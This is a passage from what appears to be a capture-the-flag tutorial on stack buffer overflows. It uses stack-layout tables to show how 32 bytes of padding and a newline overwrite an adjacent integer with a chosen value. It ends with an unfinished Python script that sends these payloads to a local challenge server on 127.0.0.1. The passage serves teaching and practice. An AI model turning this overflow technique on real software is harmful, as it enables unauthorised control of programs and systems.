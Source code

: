 | buf[0-3] | [41 42 43 44] |
| .. lower addresses .. | ... |

This looks mostly OK right? Not so much, while not readily apparent, overwriting the saved EBP will force a crash of the application as it cannot return to the previous function and locate that functions stack frame. Instead we must understand the size of both `buf` and `pikachy` to ensure we only overwrite the minimum data needed. This can be achieved by sending 36 bytes of data you want, followed by a newline(\n) to stop `fgets()` from reading any more data. If sent correctly, our stack would look like:

| Stack Layout 4 bytes wide | Value |
|----------|---------|
| .. higher addresses .. | ... |
| Saved EIP | ... |
| Saved EBP | ... |
| .. space for function local variables .. | |
| pikachy | [ ef be 75 fa] |
| buf[1c-1f] | [5d 5f 60 61] |
| buf[18-1b] | [59 5a 5b 5c] |
| buf[14-17] | [55 56 57 58] |
| buf[10-13] | [51 52 53 54] |
| buf[c-f] | [4d 4e 4f 50] |
| buf[8-b] | [49 4a 4b 4c] |
| buf[4-7] | [45 46 47 48] |
| buf[0-3] | [41 42 43 44] |
| .. lower addresses .. | ... |

This is exactly what the program is looking for! `pikachy` sure looks a little strange though! Why is it reversed? Thats a detail of the system your program is running on called endianess. While out of scope for todays discussion, understand and expect the application to handle this change for you.

### Scripting a Solution

So how do we go about winning? Let's script out a solution in python! This will play through all three aspects of the challenge, sending the proper amount of data to fill buf and overflow the integer above it with the value we need to also cause the global value to be set later on.

```python
#!env python3
import socket
host="127.0.0.1"
port=12346
# a tuple of challenge selection and corresponding message
tups = [
    ("1\n", b"a"*32+b"\xef\xbe\x75\xfa\n"),
    ("2\n", b"b"*32+b"\xbe\xba\xfe\xca\n"),
    ("3\n", b"c"*32+b"\x78\x56\x34\x12\n")
]
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.connect((host,port))			# connect to remote server
    data = sock.recv(72)				# retrieve initial message with options
    for opt,msg in tups: 				# for each of our challenge/message tuples
        print("Choosing: {}".format(opt[0]))
        sock.send(opt.encode())			# send our selected challenge option
        data = sock.recv(1024)			# retrieve challenge text
```